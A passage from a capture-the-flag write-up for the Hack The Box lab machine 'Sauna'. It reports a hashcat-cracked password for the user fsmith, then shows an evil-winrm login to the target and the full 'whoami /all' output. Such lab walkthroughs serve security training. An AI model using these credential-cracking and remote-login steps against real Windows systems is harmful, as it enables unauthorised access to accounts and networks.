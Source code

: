 Including the time spent building the dictionary file and getting everything loaded, this hash took less than two minutes to be cracked using `hashcat`. The password for `fmsith` was apparently `Thestrokes23` \(to see it in the output above you have to scroll all the way to the right...the output shows it at the end of the hash string\).

### User.txt

Now that I had a username and password, I could try to log into the server using `evil-winrm`.  This tool connects to the Windows Remote Management service that is usually open on port 5985.

```text
zweilos@kalimaa:~/htb/sauna$ evil-winrm -i 10.10.10.175 -u fsmith 
Enter Password: Thestrokes23

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
```